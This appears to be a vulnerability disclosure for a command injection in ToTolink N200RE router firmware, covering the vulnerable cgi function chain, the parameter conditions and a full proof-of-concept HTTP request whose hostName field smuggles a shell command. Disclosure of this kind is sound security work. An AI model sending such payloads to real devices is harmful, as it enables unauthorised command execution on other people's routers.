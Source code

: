 # ToTolink N200RE V9.3.5u.5812-B20200414 setOpModeCfg command injection

Vulnerability description: ToTolink N200RE V9.3.5u was found to have a command injection at /cgi-bin/cstecgi.cgi through hostname parameters.

![1.png](img/1.jpg)

Firmware Download: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/204/ids/36.html

### 1.hostname

Locate the key code in function sub-41A0F8 through the doSystem danger function (as shown in the figure below), and the function call relationship of sub-41A0F8 is sub_420000()-->sub_41F494()-->sub_41A0F8()

![1.png](img/2.png)

By reading the code of the sub-41A0F8() function, we can know that firstly, proto cannot be 0, 3, 4, or 6, and secondly, hostname cannot be empty.

![1.png](img/3.png)

#### Payload

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 172.16.7.140
Content-Length: 101
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.16.7.140
Referer: http://172.16.7.140/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl" : "setOpModeCfg",
"proto" : "8",
"switchOpMode" : "1",
"hostName" : "';ls -al ../ ;'"}
```

#### Demo

![1.png](img/4.png)
